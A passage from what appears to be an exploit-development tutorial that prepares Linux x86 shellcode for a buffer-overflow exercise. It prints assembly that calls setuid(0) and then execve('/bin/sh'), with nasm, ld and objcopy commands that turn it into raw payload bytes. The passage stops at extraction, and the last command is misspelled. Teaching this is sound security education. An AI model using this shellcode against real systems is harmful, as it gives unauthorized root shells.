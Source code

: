 Before we going to dive into the first code, on the follows examples we going to use some shellcode, so we will create buffer overflow and run our malicious code so we should get back new shell from our execution.

The following shell code I found over exploit db, which is 13333.txt:
```
https://github.com/blackorbird/exploit-database/blob/master/shellcodes/lin_x86/13333.txt
```

First we going to compile that code and make some binary files of it, after that we will create hex values so we can use it as the malicious part on our buffer overflow.

The original code look like the following:
```
;shellcode.asm
global _start
section .text
_start:
  ;setuid(0)
  xor ebx,ebx
  lea eax,[ebx+17h]
  cdq
  int 80h
  ;execve("/bin/sh",0,0)
  xor ecx,ecx
  push ecx
  push 0x68732f6e
  push 0x69622f2f
  lea eax,[ecx+0Bh]
  mov ebx,esp
  int 80h
```

That code should be save as shellcode.asm, then we use the following code for change it's format to elf file so we can make it as binary file:
```
nasm -f elf32 -o shellcode.o shellcode.asm
```

Now, we going to links the object file "shellcode.o" into an executable binary named "shellcode" using the GNU Linker. The resulting binary is a 32-bit ELF executable that can be executed on a compatible system.
```
ld -m elf_i386 -o shellcode shellcode.o
```

We can check now it if work and give us new shell on our terminal:
![shell01.png](/assets/images/shell01.png)
**Figure 4** New shell on our terminal.

Now, we want to convert that binary to hex value so we can use it on   the buffer overflow example here. We going to use the command objcopy to extract the binary content of the *.text* section from the input file "shellcode" and saves it into a new file named "shellcode.bin". This is often done to extract the raw machine code (binary) from an executable or object file, which can be useful for various purposes such as embedding in other programs or systems.
```
bjcopy -O binary -j .text shellcode shellcode.bin
```

